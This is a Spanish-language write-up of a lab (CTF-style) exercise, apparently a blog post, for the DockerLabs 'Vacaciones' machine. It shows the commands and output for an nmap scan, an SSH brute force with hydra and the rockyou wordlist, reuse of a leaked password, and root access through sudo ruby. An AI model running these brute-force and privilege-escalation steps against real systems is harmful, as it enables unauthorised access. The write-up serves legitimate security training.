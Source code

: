 ```yaml
---
title: Upload - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/vacaciones/vacaciones.png" alt="Captura de pantalla de la máquina Vacaciones en DockerLabs">

Hoy trataremos de explotar la máquina *Vacaciones* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Vamos a visualizar el codigo fuente de la web y despues realizaremos ataques de fuerza bruta con **hydra**.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh injection.tar
[sudo] contraseña para nmc:     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla

```

## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
nmc@mate ~/D/D/vacaciones [16:36]
➤ nmap -sV -p- --min-rate=5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-27 16:36 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.57 seconds
```



Nos percatamos de que está abierto el puerto <mark>80</mark> con el servicio HTTP. Entramos a la web con el puerto 80: <mark>http://172.17.0.2:80</mark> y nos carga una pagina en blanco, pero inspeccionamos su codigo fuente y encontramos un comentario.

<img src="/assets/img/DLabs/vacaciones/view-vacaciones.png" alt="Captura de pantalla de la máquina Vacaciones en DockerLabs">

## Hydra

Utilizamos **hydra** con los usuarios **Camilo** y **Juan** al **ssh**:

```bash
➤ hydra -l camilo -P /usr/share/wordlists/rockyou.txt -t 50 ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344398 login tries (l:1/p:14344398), ~286888 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-27 16:47:12
```



Iniciamos sesion con las credenciales de **Camilo**:

```bash
➤ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
$
```



## Escalada de privilegios

Revisamos el *correo* que nos indicaba en la web

```bash
$ cd /var/mail
$ cd camilo
$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```



Iniciamos sesion en con el usuario **Juan**:

```bash
➤ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$
```



Hacemos un **sudo -l**:

```bash
$ sudo -l
Matching Defaults entries for juan on 05af69235c0b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 05af69235c0b:
    (ALL) NOPASSWD: /usr/bin/ruby 
```



Podemos ejecutar **ruby** como el usuario **root**:

```bash
$ sudo /usr/bin/ruby -e 'exec "/bin/bash"'
root@05af69235c0b:~#
```



```bash
root@05af69235c0b:~# whoami
root
root@05af69235c0b:~#
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
